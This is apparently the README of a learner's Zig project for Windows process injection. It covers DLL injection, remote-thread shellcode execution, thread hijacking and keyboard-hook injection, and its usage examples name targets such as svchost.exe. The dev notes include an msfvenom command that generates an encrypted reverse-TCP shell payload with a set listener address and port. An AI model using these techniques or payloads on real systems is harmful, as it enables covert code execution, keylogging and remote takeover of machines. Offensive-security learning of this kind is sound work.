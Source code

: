 # ZInjector

Simple Process injector for Windows (for now) written in Zig.


> [!NOTE]
> This is my first project in Zig, so the code is pretty rough. My goal is to learn Zig and perform process injection. I haven't decided what to implement yet, but the first steps are to learn Zig and carry out a simple process injection attack on Windows.

## Usage

### General syntax

```sh
zinjector <subcommand> [OPTIONS]
```

Most common:

* `zinjector --help` — general help
* `zinjector <subcommand> --help` — help for a subcommand

---

### Subcommands

#### `dll`

Performs a DLL injection into the target process.

Syntax:

```sh
zinjector dll --dll_path <path> (--pid <PID> | --process_name <name>)
```

Options:

* `--dll_path, -d` *(required)* — path to the DLL (e.g. `C:\tools\payload.dll`)
* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process (e.g. `notepad.exe`) (case insensitive)

Examples:

```sh
zinjector dll -d "C:\payloads\hook.dll" -p 1234
zinjector dll -d ./payload.dll -n notepad.exe
```

Notes:

* Provide **either** `--pid` **or** `--process_name`. If both are provided, behavior depends on implementation (prefer PID for precision).
* Ensure the DLL architecture (x86/x64) matches the target process architecture.
* Administrative privileges may be required.

---

#### `thread`

Creates a remote thread in the target process and runs an in-memory payload (shellcode).

Syntax:

```sh
zinjector thread (--pid <PID> | --process_name <name>)
```

Options:

* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process (case insensitive)

Examples:

```sh
zinjector thread -p 4321
zinjector thread -n Notepad.exe
```

Notes:

* The payload (shellcode) must be provided or obtained according to the implementation (file, stdin, embedded).
* Verify architecture and calling convention compatibility.
* Elevated privileges may be necessary.

---

#### `hijacking`

Performs thread hijacking: suspends a target thread, modifies its context, and resumes it to execute the payload.

Syntax:

```sh
zinjector hijacking --pid <PID>
```

Options:

* `--pid, -p` — numeric PID of the target process (recommended)

Examples:

```sh
zinjector hijacking -p 5555
```

---

#### `Hook`

Performs SetWindowHookEx Code Injection: Load a library get the address of a an exported function from the DLL and set a window hook to the keayboard to a thread (0 for all thread in the desktop, not not recommended).

Syntax:

```sh
zinjector hook --dll <DLLPATH>
```

Options:

* `--dll_path, -d` *(required)* — path to the DLL (e.g. `C:\tools\payload.dll`)

---

### Full examples

```sh
# Inject DLL by PID
zinjector dll -d "C:\tools\inject.dll" -p 1010

# Run shellcode via remote thread by process name
zinjector thread -n svchost.exe

# Hijack thread in process
zinjector hijacking -p 2020
```

---

## Some cool resource for learning Zig and Process Injection

- [Zig Guide](https://zig.guide/)
- [Zig Standard Library](https://ziglang.org/documentation/master/std/)
- [LearnXInYMinutes](https://learnxinyminutes.com/zig/)
- [Zig book](https://pedropark99.github.io/zig-book/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-injection-process-injection)
- [MITRE](https://attack.mitre.org/techniques/T1055/)
- [DLL Injector C++](https://github.com/leetCipher/Malware.development/tree/main/dll-injector)
- [Cool cheasheet (zig_in_depth)](https://codeberg.org/dude_the_builder/zig_in_depth)
- https://github.com/marlersoft/zigwin32/tree/main
- https://raw.githubusercontent.com/marlersoft/zigwin32/refs/heads/main/win32/everything.zig
- https://black-hat-zig.cx330.tw/

### Legal and safety warning

These techniques modify other processes and can be used maliciously. Use only on machines and processes for which you have explicit authorization. The author assumes no responsibility for misuse.

## Dev

- Zig Version: 0.15.2
- OS: Arch Linux
- IDE: Zed
- LSP: Zls

Deps for cross-compiler on linux:  mingw-w64-headers,mingw-w64-gcc

## Todo:

- [x] PoC
- [x] Resolution of relative path to absolute path
- [x] Search process by name
- [x] Implement arguments parsing
- [x] Thread Remote creation with shellcode injection
- [x] SetWindowHookEx Code Injection
- [ ] ...

## Command for dev/testing:

- Compile: `zig build -Dtarget=x86_64-windows -Dport=8080 -Dipv4=172.19.192.194 -Doptimize=ReleaseSmall --summary all`
- Test: `zig build test --summary all`
- Shellcode generator: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.118 LPORT=8080 -f zig --encrypt xor --encrypt-key a`
